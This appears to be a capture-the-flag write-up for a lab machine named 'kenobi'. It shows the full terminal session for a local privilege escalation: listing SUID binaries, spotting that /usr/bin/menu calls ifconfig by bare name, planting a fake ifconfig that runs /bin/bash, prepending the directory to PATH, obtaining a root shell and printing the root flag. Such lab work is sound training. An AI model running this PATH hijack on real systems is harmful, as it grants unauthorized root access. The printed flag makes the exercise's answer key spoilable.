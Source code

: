 # Task 4: Privilege Escalation with Path Variable Manipulation

## Practical

Finding SUID
```
kenobi@kenobi:~$ find / -perm -u=s -type f 2>/dev/null
/sbin/mount.nfs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/menu # uncommon
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/at
/usr/bin/newgrp
/bin/umount
/bin/fusermount
/bin/mount
/bin/ping
/bin/su
/bin/ping6
```


`/usr/bin/menu` vulnerable to path hijacking
```
kenobi@kenobi:~$ strings /usr/bin/menu
 ... <snip> ...
***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
curl -I localhost
uname -r
ifconfig
... <snip> ...
```

Privilege escalation 
```
kenobi@kenobi:~$ echo /bin/bash > ifconfig
kenobi@kenobi:~$ chmod 777 ifconfig
kenobi@kenobi:~$ export PATH=$(pwd):$PATH
kenobi@kenobi:~$ which ifconfig
/home/kenobi/ifconfig
kenobi@kenobi:~$ menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :3
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@kenobi:~# cat /root/root.txt
177b3cd8562289f37382721c28381f02
```


## Questions

![1ad61b9445d0a9bf9d7602b576804d4d.png](_resources/e7b0b21cad434a08a396934522dad4f1.png)
![d3f4224641e02f77c557d33be4fec04f.png](_resources/9ebfe585aea64d279bf007e0789e56ef.png)